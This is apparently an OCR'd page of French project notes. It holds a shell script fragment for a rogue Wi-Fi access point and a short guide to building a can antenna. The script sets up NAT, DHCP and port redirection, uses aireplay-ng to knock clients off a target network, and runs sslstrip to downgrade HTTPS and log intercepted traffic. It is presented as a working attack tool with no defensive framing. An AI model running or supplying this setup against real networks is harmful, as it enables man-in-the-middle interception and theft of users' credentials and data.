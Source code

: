 ```sh
	echo "lease wait 10..."
        sleep 10
        #flush d'iptable et redirection de port:
        iptables -F && iptables -X
        iptables -P FORWARD ACCEPT
        iptables -P INPUT ACCEPT
        iptables -P OUTPUT ACCEPT
        iptables -t nat -A POSTROUTING -o $5 -j MASQUERADE
        #kernel fowarding
        echo 1 > /proc/sys/net/ipv4/ip_forward

        #configuration du rogue AP: puissance, ip, routage DHCP
        iwconfig wlan0 txpower 30
        ifconfig at0 10.0.0.1 netmask 255.255.255.0
        route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1

        echo -e "default-lease-time 600;\nmax-lease-time 7200;\nsubnet 10.0.0.0 netmask 255.255.255.0 {\nrange 10.0.0.10 10.0.0.15;\noption subnet-mask 255.255.255.0;\noption broadcast-address 10.0.0.255;\noption routers 10.0.0.1;\noption domain-name-servers 8.8.8.8;\noption domain-name \"local\";\n}" > /etc/dhcp/dhcpd.conf

        echo -e "INTERFACESv4=\"at0\"\nINTERFACESv6=\"\"" > /etc/default/isc-dhcp-server
        service isc-dhcp-server restart
	
	#mise en place du prooxy:
        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
        iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 10000
        #Attaque par desauthentification:
        aireplay-ng -0 15 -a $1 $4
        sslstrip standard:
        sslstrip -l 10000 -w ./sslstrip_log    
        sslstrip2/Leonardo
        /root/Documents/Projets/RogueAP/sslstrip2-master/sslstrip.py -l 10000 -w ./leonardo.log
# }
export -f AP3

function ap { AP2 00:01:C7:4E:15:0D $1 6 $2 $3 ; }
export -f ap
function rogue { AP3 00:01:C7:4E:15:0D $1 6 $2 $3 ; } 
export -f rogue
```


## Antenne Wifi directionnelle

À partir d'une boite de conserve.

1. le - du câble est connecté à la boite de conserve
2. le + est isolé et dépasse au milieu de la boite

```txt
H: 100 mm 
L: 175 mm
___________________________________________
|
|
|
|
|           |
| <44 mm>   |   Picot + de 31 mm
|__________ | _____________________________
           ||
           -+
           || câble ant.
```
